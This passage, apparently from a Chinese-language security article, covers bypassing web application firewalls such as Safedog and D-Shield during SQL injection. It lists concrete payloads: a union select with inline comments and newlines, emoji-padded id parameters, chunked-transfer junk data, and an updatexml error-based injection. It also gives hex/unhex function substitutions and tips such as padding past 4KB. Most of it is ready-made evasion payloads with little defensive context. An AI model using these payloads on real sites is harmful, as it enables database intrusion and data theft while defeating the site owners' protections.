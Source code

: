 <table><tbody><tr><td data-colwidth="250" width="250" style="border: 1px solid #d9d9d9;background-color: rgb(248, 248, 250);"><p style="margin: 0;padding: 0;min-height: 24px;text-align: left;"><strong><span style="color: rgb(55, 58, 64);"><span leaf="">场景</span></span></strong></p></td><td data-colwidth="250" width="250" style="border: 1px solid #d9d9d9;background-color: rgb(248, 248, 250);"><p style="margin: 0;padding: 0;min-height: 24px;text-align: left;"><strong><span style="color: rgb(55, 58, 64);"><span leaf="">Payload 构造要点</span></span></strong></p></td><td data-colwidth="250" width="250" style="border: 1px solid #d9d9d9;background-color: rgb(248, 248, 250);"><p style="margin: 0;padding: 0;min-height: 24px;text-align: left;"><strong><span style="color: rgb(55, 58, 64);"><span leaf="">绕过目标</span></span></strong></p></td></tr><tr><td data-colwidth="250" width="250" style="border: 1px solid #d9d9d9;"><p style="margin: 0;padding: 0;min-height: 24px;text-align: left;"><strong><span style="color: rgb(55, 58, 64);"><span leaf="">安全狗/云WAF</span></span></strong></p></td><td data-colwidth="250" width="250" style="border: 1px solid #d9d9d9;"><p style="margin: 0;padding: 0;min-height: 24px;text-align: left;"><span style="color: rgb(55, 58, 64);"><span leaf="">在</span></span><span style="color: rgb(55, 58, 64);"></span><span style="color: rgb(55, 58, 64);"><span leaf="">union select</span></span><span style="color: rgb(55, 58, 64);"></span><span style="color: rgb(55, 58, 64);"><span leaf="">间插入</span></span><span style="color: rgb(55, 58, 64);"></span><span style="color: rgb(55, 58, 64);"><span leaf="">/*!*/</span></span><span style="color: rgb(55, 58, 64);"></span><span style="color: rgb(55, 58, 64);"><span leaf="">和垃圾字符：</span><span leaf=""><br/></span></span><span style="color: rgb(55, 58, 64);"><span leaf="">union/*!*//*%0a*/select 1,@@version,3</span></span></p></td><td data-colwidth="250" width="250" style="border: 1px solid #d9d9d9;"><p style="margin: 0;padding: 0;min-height: 24px;text-align: left;"><span style="color: rgb(55, 58, 64);"><span leaf="">避开 union select 关键词检测</span></span></p></td></tr><tr><td data-colwidth="250" width="250" style="border: 1px solid #d9d9d9;"><p style="margin: 0;padding: 0;min-height: 24px;text-align: left;"><strong><span style="color: rgb(55, 58, 64);"><span leaf="">D盾防护</span></span></strong></p></td><td data-colwidth="250" width="250" style="border: 1px solid #d9d9d9;"><p style="margin: 0;padding: 0;min-height: 24px;text-align: left;"><span style="color: rgb(55, 58, 64);"><span leaf="">填充表情符号（如</span></span><span style="color: rgb(55, 58, 64);"></span><span style="color: rgb(55, 58, 64);"><span leaf="">😂</span></span><span style="color: rgb(55, 58, 64);"><span leaf="">）或生僻字符：</span><span leaf=""><br/></span></span><span style="color: rgb(55, 58, 64);"><span leaf="">?id=1&#39;</span></span><span style="color: rgb(55, 58, 64);"><span leaf="">😂</span></span><span style="color: rgb(55, 58, 64);"><span leaf="">&#39; union select 1,2,3 --+</span></span></p></td><td data-colwidth="250" width="250" style="border: 1px solid #d9d9d9;"><p style="margin: 0;padding: 0;min-height: 24px;text-align: left;"><span style="color: rgb(55, 58, 64);"><span leaf="">干扰字符黑白名单规则</span></span></p></td></tr><tr><td data-colwidth="250" width="250" style="border: 1px solid #d9d9d9;"><p style="margin: 0;padding: 0;min-height: 24px;text-align: left;"><strong><span style="color: rgb(55, 58, 64);"><span leaf="">分块传输（Chunked）</span></span></strong></p></td><td data-colwidth="250" width="250" style="border: 1px solid #d9d9d9;"><p style="margin: 0;padding: 0;min-height: 24px;text-align: left;"><span style="color: rgb(55, 58, 64);"><span leaf="">在 HTTP 请求体中分块插入垃圾数据：</span><span leaf=""><br/></span></span><span style="color: rgb(55, 58, 64);"><span leaf="">5\r\nid=1\r\n6\r\n%00&#39;\r\n...</span></span></p></td><td data-colwidth="250" width="250" style="border: 1px solid #d9d9d9;"><p style="margin: 0;padding: 0;min-height: 24px;text-align: left;"><span style="color: rgb(55, 58, 64);"><span leaf="">绕过 WAF 对完整请求的解析</span></span></p></td></tr><tr><td data-colwidth="250" width="250" style="border: 1px solid #d9d9d9;"><p style="margin: 0;padding: 0;min-height: 24px;text-align: left;"><strong><span style="color: rgb(55, 58, 64);"><span leaf="">报错注入屏蔽</span></span></strong></p></td><td data-colwidth="250" width="250" style="border: 1px solid #d9d9d9;"><p style="margin: 0;padding: 0;min-height: 24px;text-align: left;"><span style="color: rgb(55, 58, 64);"><span leaf="">在报错函数前添加超长注释：</span><span leaf=""><br/></span></span><span style="color: rgb(55, 58, 64);"><span leaf="">updatexml(1,concat(0x7e,(/*!*/database/*////*/(),0x7e)</span></span></p></td><td data-colwidth="250" width="250" style="border: 1px solid #d9d9d9;"><p style="margin: 0;padding: 0;min-height: 24px;text-align: left;"><span style="color: rgb(55, 58, 64);"><span leaf="">避免触发</span></span><span style="color: rgb(55, 58, 64);"></span><span style="color: rgb(55, 58, 64);"><span leaf="">database()</span></span><span style="color: rgb(55, 58, 64);"></span><span style="color: rgb(55, 58, 64);"><span leaf="">等关键词</span></span></p></td></tr></tbody></table>  
- **关键技巧：**  
- 垃圾数据需**超过 WAF 默认检测长度**  
（通常 4KB 以上）  
- MySQL 中优先使用 /*!50001xxx*/（版本号限定注释），提高绕过成功率  
# 等价函数绕过  
- hex()、unhex()、bin() 、char()、ascii()、ord()、conv()  
- hex()：SELECT * from admin where hex(substr(username,1,1))=61  
![](https://mmbiz.qpic.cn/mmbiz_png/BqBKZfLY4RympQJjBW3RD4FSOek13LGjIIV9CUcR60Kk5toJ4FhS7xH5MVUKUupIJKgY5ZkIC5EURCHPaErnAQ/640?wx_fmt=png&from=appmsg "")  
- unhex()：SELECT * from admin where substr(username,1,1) = unhex('61')  